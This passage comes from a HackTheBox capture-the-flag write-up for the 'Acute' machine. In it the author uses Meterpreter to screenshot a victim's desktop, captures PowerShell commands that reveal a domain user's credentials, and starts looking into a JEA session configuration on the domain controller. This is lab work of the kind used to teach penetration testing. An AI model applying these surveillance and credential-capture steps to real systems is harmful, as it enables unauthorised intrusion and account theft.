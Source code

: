 ```shell
[-]   /opt/metasploit-framework/embedded/framework/modules/post/windows/manage/migrate.rb:64:in `run'
[*] Post module execution completed
```

- **Take a screenshot using `screenshot` command in Meterpreter shell:**

```shell
msf6 post(windows/manage/migrate) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > screenshot
Screenshot saved to: /home/siunam/ctf/htb/Machines/Acute/mkieDjXj.jpeg
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Acute/images/Pasted%20image%2020230815141214.png)

**After waiting for a little bit and taking bunch of screenshots, there's a PowerShell window, which runs as user `edavies`!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Acute/images/Pasted%20image%2020230815141310.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Acute/images/Pasted%20image%2020230815141411.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Acute/images/Pasted%20image%2020230815141502.png)

**Entered PowerShell commands:**
```powershell
enter-pssession -computername atsserver
enter-pssession -computername atsserver
$passwd = ConvertTo-SecureString "{Redacted}" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ("acute\imonks",$passwd)
Enter-PSSession -ComputerName ATSSERVER -Credential $cred
Enter-PSSession -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```

Nice!! We found domain user `imonks`'s password!

In the above PowerShell commands, it tried to start an interactive session with the Domain Controller using `imonks`'s credential and `dc_manage` session configuration.

Uhh... What's that `dc_manage` session configuration?? We've seen that in the Word document.

**Let's try to Google that:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Acute/images/Pasted%20image%2020230815202003.png)

**Just Enough Administration? It Sounds very straight forward.**

> The **Just Enough Administration (JEA)** feature is available starting from [PowerShell version](https://woshub.com/check-powershell-version-installed/) 5.0 and allows you to delegate administrative privileges to anything you can manage with PowerShell. The main purpose of PowerShell JEA is to limit privileges. JEA allows you to grant non-admin users permissions to perform specific administrative tasks without giving them server or service administrator rights (AD, Exchange, SharePoint, etc.). Using JEA, you can set which users can run specific cmdlets, functions or PowerShell scripts with admin privileges and log all actions (similar to [PowerShell command history](https://woshub.com/powershell-commands-history/)). (From [https://woshub.com/using-powershell-just-enough-administration-jea/](https://woshub.com/using-powershell-just-enough-administration-jea/))
